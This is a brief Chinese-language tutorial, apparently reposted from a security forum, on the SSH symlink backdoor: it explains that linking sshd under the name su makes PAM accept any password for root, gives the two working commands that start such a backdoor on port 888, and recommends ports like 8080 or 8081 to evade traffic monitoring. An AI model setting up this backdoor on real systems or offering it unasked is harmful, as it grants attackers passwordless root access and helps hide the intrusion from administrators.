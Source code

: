 # SSH 软连接后门

> 原文：[https://www.zhihuifly.com/t/topic/3486](https://www.zhihuifly.com/t/topic/3486)

# SSH 软连接后门

软连接后门的原理是利用了PAM配置文件的作用，将sshd文件软连接名称设置为su，这样应用在启动过程中他会去PAM配置文件夹中寻找是否存在对应名称的配置信息（su），然而su在pam_rootok只检测uid 0即可认证成功，这样就导致了可以使用任意密码登录。

```
ln -sf /usr/sbin/sshd /tmp/su
/tmp/su -oPort=888 
```

![image](img/bfef694471a2b8c7012305bc6792054c.png)

优点：能够绕过一些网络设备的安全流量监测，但是本地在查看监听端口时会暴露端口，建议设置成8081，8080等端口。